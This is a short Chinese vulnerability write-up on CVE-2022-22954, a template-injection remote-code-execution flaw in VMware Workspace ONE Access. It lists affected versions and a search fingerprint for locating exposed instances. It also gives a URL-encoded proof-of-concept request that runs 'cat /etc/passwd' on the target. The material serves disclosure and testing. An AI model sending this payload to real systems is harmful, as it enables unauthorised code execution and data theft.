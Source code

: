 # VMware Workspace ONE Access SSTI漏洞 CVE-2022-22954

## 漏洞描述

VMware Workspace ONE Access（以前称为VMware Identity Manager）旨在通过多因素身份验证、条件访问和单点登录，让您的员工更快地访问SaaS、Web和本机移动应用程序。其中的CVE-2022-22954是一个匿名服务器模板注入漏洞，未经身份验证的攻击者可以利用此漏洞进行远程任意代码执行。

## 漏洞影响

<a-checkbox checked>VMware Workspace ONE Access Appliance （版本号：20.10.0.0 ，20.10.0.1 ，21.08.0.0 ，21.08.0.1 ）</a-checkbox></br>

<a-checkbox checked>VMware Identity Manager Appliance （版本号：3.3.3 ， 3.3.4 ， 3.3.5 ，3.3.6）</a-checkbox></br>

<a-checkbox checked>VMware Realize Automation （版本号：7.6）</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="vmware-Workspace-ONE-Access"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1649728317418-bfa9ad4f-9b88-461c-90db-da37bb591b19.png)

验证POC

```php
/catalog-portal/ui/oauth/verify?error=&deviceUdid=%24%7b%22%66%72%65%65%6d%61%72%6b%65%72%2e%74%65%6d%70%6c%61%74%65%2e%75%74%69%6c%69%74%79%2e%45%78%65%63%75%74%65%22%3f%6e%65%77%28%29%28%22%63%61%74%20%2f%65%74%63%2f%70%61%73%73%77%64%22%29%7d
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1649728372163-e5da4186-4042-4cb5-a4ad-66580ff6af49.png)